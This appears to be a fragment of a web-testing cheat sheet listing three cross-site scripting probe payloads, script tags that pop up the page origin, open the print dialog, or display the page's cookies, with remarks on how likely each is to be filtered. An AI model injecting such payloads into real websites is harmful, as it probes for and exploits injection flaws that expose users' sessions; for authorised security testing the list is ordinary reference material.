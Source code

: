 
(Potentially blocked in some locations)
```html
<script>alert(window.origin)</script>
```
(Most likely not blocked on any page)
```html
<script>print()</script>
```
Get cookie
```html
<script>alert(document.cookie)</script>
```
